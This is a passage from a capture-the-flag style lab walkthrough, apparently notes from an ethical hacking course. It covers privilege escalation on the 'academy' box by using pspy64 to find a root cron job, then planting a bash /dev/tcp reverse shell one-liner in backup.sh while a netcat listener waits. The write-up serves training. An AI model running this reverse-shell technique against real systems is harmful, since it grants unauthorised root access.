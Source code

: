 Next, move the file over to the grimmie user exactly the same way as we did with linpeas.

```bash
grimmie@academy:/tmp$ wget http://10.0.2.4/pspy64
--2024-01-17 13:47:59--  http://10.0.2.4/pspy64
Connecting to 10.0.2.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                         100%[====================================================================================================>]   2.96M  --.-KB/s    in 0.01s   

2024-01-17 13:47:59 (276 MB/s) - ‘pspy64’ saved [3104768/3104768]

grimmie@academy:/tmp$ ls
pspy64  systemd-private-1beb94f972f4459898e88d099e38143c-apache2.service-YSvT2y  systemd-private-1beb94f972f4459898e88d099e38143c-systemd-timesyncd.service-mzvFql
grimmie@academy:/tmp$ chmod +x pspy64
grimmie@academy:/tmp$ ./pspy64
```

Wait for it to run till we see some information on `backup.sh`

![grimmie_process](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/e08afd60-1c3e-46ee-b1d3-794c16ec938e)

Looks like the `[backup.sh](http://backup.sh)` seems to be executing at one minute intervals.

Lets try to exploit this.

Google `bash reverse shell one liner`. First result should be this site: [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Copy this line: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

If we put this line into the `[backup.sh](http://backup.sh)` file. The next time it executes, we will get a reverse shell as root!!

NOTE: Make sure to change the `10.0.0.1` in the one liner to our Kali IP. We can leave the port `8080` as is.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
```

```bash
grimmie@academy:~$ cd /home/grimmie
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ nano backup.sh
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.2.4/8080 0>
```
